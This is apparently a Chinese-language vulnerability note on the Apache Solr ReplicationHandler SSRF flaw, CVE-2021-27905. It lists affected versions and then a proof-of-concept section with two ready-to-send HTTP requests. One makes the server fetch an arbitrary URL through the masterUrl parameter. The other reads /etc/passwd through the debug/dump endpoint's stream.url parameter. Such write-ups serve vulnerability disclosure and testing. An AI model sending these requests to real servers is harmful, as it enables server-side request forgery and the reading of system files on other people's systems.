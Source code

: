 # Apache Solr Replication handler SSRF CVE-2021-27905

# Apache Solr Replication handler SSRF CVE-2021-27905

## 漏洞描述

Apache Solr是一个开源搜索服务引擎，Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。漏洞产生在 ReplicationHandler 中的 masterUrl 参数（ leaderUrl 参数）可指派另一个 Solr 核心上的 ReplicationHandler 讲索引数据复制到本地核心上。成功利用此漏洞可造成服务端请求伪造漏洞。

参考链接：

* https://nvd.nist.gov/vuln/detail/CVE-2021-27905

## 漏洞影响

```
Apache Solr 7.0.0 - 7.7.3 
Apache Solr 8.0.0 - 8.8.1
```

### 漏洞复现

poc：

```
GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
HOST:target
....
```

```
GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
HOST:target
...
```



